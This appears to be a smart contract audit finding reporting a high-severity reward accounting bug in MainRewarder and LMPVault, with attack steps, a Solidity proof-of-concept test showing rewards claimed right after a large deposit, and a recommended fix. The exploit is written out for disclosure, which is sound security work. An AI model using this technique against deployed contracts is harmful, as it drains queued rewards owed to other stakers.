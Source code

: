 Rhythmic Eggshell Perch

high

# All Rewards can be collected without waiting from mainRewarder
## Summary
The improper accounting at MainRewarder and LMPVault allows a user to take all queued up rewards without waiting the necessary time.

## Vulnerability Detail
During minting of the LMPVault tokens the rewards are calculated improperly for the previously staked tokens. When new LMPVault tokens are minted, the rewards are calculated and collected for the already minted tokens, however the amount used to calculate that is unnecessarily including the just minted tokens (instead of doing it only for the amount before the current mint).

## Impact
Any user can take all amounts of rewards queued within the MainRewarder contract in a single transaction by leveraging a flashloan. 

## Code Snippet
 1. call LMPVault.claimRewards() which will call the MainRewarder._updateReward()
 2. We roll the blocks
 3. We deposit a big amount through the LMPVault.deposit()
 4. We do again LMPVault.claimRewards()
 5. We LMPVault.withdraw()

The code to achieve that:
```solidity
    function test_stealSomeRewards() public {
        uint256 private rewardAmount = 100_000_000;
        liquidator = vm.addr(234);
        _accessController.grantRole(Roles.LIQUIDATOR_ROLE, liquidator);       
        mainRewardVault = _lmpVault.rewarder();
        _toke.mint(liquidator, rewardAmount); // mint 

        vm.startPrank(liquidator);
        _toke.approve(address(mainRewardVault), rewardAmount);
        mainRewardVault.queueNewRewards(rewardAmount);
        vm.stopPrank();

        address user1 = vm.addr(100);
        uint amount = 100_000_000_000;
        vm.label(user1, "user1");

        _asset.mint(user1, amount);

        vm.startPrank(user1);
        _lmpVault.claimRewards();
        vm.stopPrank();

        vm.roll(block.number + 100);

        vm.startPrank(user1);
        _asset.approve(address(_lmpVault), amount);
        _lmpVault.deposit(amount, user1);
        _lmpVault.claimRewards(); // rewards are claimed as if the 'amount' was staked for 100 blocks.
        vm.stopPrank();

        uint rewardsClaimed = _lmpVault.rewarder().balanceOf(user1);

        console.log("Rewards collected: ", rewardsClaimed);
    }
```
## Tool used

Manual Review

## Recommendation

The rewarder should use its own accounting of staked tokens instead of relying on the LMPVault balances.


